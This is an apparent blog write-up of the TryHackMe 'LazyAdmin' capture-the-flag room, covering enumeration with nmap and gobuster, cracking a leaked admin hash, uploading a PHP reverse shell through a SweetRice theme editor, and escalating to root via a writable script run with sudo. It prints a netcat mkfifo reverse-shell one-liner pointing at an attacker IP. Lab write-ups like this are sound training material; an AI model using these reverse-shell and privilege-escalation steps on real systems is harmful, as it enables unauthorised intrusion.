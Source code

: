 ```yaml
---
title:  "TryHackMe - LazyAdmin (Easy)"
description: "Easy Linux machine to practice your skills"
author: 0x5ubt13
date: 2021-01-17 14:30:00 +0000
categories: [Write-Ups]
tags: [write-up, OSCP, Pentesting, Ethical-Hacking, Password-Cracking, Easy, PHP-reverse-shell]
math: true
mermaid: true
image: /assets/images/write-ups/tryhackme/lazyadmin/lazyadmin_logo.png
---
```


Welcome to my second write-up, this time based on the room LazyAdmin from TryHackMe. This is the second of a series of rooms I will be covering on my personal Road to OSCP journey.

You can find the room for free in the following link: [TryHackMe - LazyAdmin](https://tryhackme.com/room/lazyadmin)

 

# Reconnaissance:

First off as usual, we run our favourite scan to see what's for us in store.

```sh
ip=10.10.115.249
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -A -oN lazyadmin_initial.nmap -p$ports $ip
```

Since there's nothing special to see in the aggresive scan, I will paste a simplified scan, just to show port 80 and 22 are the only ones open and omitting the rest:

![Scan](/assets/images/write-ups/tryhackme/lazyadmin/scan.png)

Let's dive right into the website!

 

# Scouting Port 80:

Upon connecting, we see the dull apache welcoming page:

![Def page](/assets/images/write-ups/tryhackme/lazyadmin/def_page.png)

Looks like it's GoBuster time!

In order to find some hidden directories, a simple Gobuster's command goes like this:

`gobuster -dir -w <your wordlist> -u <the target URL>`

Since this is an easy box, I will be using a small, default list:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249`

![GoBuster first scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_1st_scan.png)

It looks like we have a finding: `/content/`.
If we jump in, we see again a simple default page, however this time we have more information: it's using a CMS called SweetRice.
Finding nothing else, it's time to use Gobuster again, this time adding the directory we found to the base URL:

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.115.249/content`

![Gobuster second scan](/assets/images/write-ups/tryhackme/lazyadmin/gobuster_2nd_scan.png)

Now we are finally advancing somewhere! Let's dig into those directories see what we find.

 

# Enumerating Port 80:

I found something interesting whilst taking a peek into the `/inc` folder: an old database!

![Database found](/assets/images/write-ups/tryhackme/lazyadmin/database_found.png)
![Database found 2](/assets/images/write-ups/tryhackme/lazyadmin/database_found2.png)

We have several options now with this MySql database. One, would be to start an database service and load the backup; or we could just cat the code for a quicker, dirtier approach to avoid us some trouble if there was nothing really in there.

`cat mysql_bakup_20191129023059-1.5.1.sql`

Fortunately, there was indeed something valuable in there: the admin password hash! He was a lazy admin indeed...

![Hash found](/assets/images/write-ups/tryhackme/lazyadmin/hash_found.png)

 

# Cracking the password:

I know using Hashcat or John The Ripper is really cool, but the quickest way of cracking any hash is just throwing it against rainbow tables in the internet and pray for it to be in the database. In case these fail, we can always sweat trying to crack it, but why going through the whole process if the title of the room is "LazyAdmin"?

![Password cracked](/assets/images/write-ups/tryhackme/lazyadmin/password_cracked.png)

Well, no surprise on this one, it really was a weak password!

 

# Find Password, Use Password!

When we peeked over the database backup we found, we also saw the username "manager". Along with knowing the password, we are entitled now to try and login to the website's admin portal, located in one of the directories we enumerated with Gobuster. Enumeration matched with the login portal:

![Login](/assets/images/write-ups/tryhackme/lazyadmin/login.png)

![Admin panel](/assets/images/write-ups/tryhackme/lazyadmin/admin_panel.png)

 

# Reverse shell

Once we are inside the admin panel in the website, we start enumerating what's inside. If we take a look inside Themes, we see we can manipulate php files to configure the website's theme with them. Well, smells like php reverse shell!!

![Reverse shell prep](/assets/images/write-ups/tryhackme/lazyadmin/reverse_shell_prep.png)

We will be using Pentest Monkeys' PHP reverse shell. Only thing we have to do is setting up our tun0 IP address and listening in the port we specify.

![Modifying theme php reverse shell](/assets/images/write-ups/tryhackme/lazyadmin/modifying_theme_php_reverse_shell.png)

Now, everything is prepared. All we have to do at this point is navigating to the `_themes` directory we enumerated earlier with Gobuster and finding the php file we edited. 

Set up the listener. 
Click. 
*We are in*. 

![We are in](/assets/images/write-ups/tryhackme/lazyadmin/we_are_in.png)

 

# Privilege Escalation Phase

![Privesc prep](/assets/images/write-ups/tryhackme/lazyadmin/privesc_prep.png)

1. We try a quick `sudo -l` to check whether we can use any command as sudo with our current user... And yes!
2. We can call a perl script in the `/home/itguy/` directory without providing `sudo` password.
3. The content of `/home/itguy/backup.pl`. It's non-writable. We can see it's calling a script located in `/etc/` directory. Maybe we can write to it?
4. Taking a look at the permissions of the file, it looks like we can actually write to it and the owner is root!! Therefore, if we modify it to spawn a reverse shell in our ip, we should be able to pop a root shell. Let's try it out!

 

# Pwning the machine

Now that we know we have access to that file, let's make it call a root bash reverse shell. 

Since nano is blocked and vi or vim are missing from the system, we can use `echo` redirect to write to a file. 
My full command looks like this:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.0.124 5556 >/tmp/f" > /etc/copy.sh
```

Then, calling the perl script will promote us to boss level on the box:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

![Pwned](/assets/images/write-ups/tryhackme/lazyadmin/pwned.png)

 


